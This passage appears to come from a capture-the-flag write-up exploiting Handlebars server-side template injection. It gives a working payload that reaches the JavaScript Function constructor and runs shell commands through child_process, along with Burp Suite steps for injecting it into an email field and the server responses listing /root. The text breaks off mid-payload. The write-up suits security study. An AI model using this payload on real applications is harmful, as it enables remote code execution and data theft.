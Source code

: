 ```html
<p class="result">
	We will contact you at:       e
	2
	[object Object]
	function Function() { [native code] }
	2
	[object Object]
	root


</p>
```
###  Explore files and directories
- Flag found in `/root` directory
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
- Using BurpSuite, URL encode
- Pass POST request into BurpSuite Repeater
- Replace POST parameter `email` value with encoded value.
- Key Response Element
```html
<p class="result">
	We will contact you at:       e
	2
	[object Object]
	function Function() { [native code] }
	2
	[object Object]
	Backend
	flag.txt
	snap


</p>
```
### Retrieve the flag
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
```
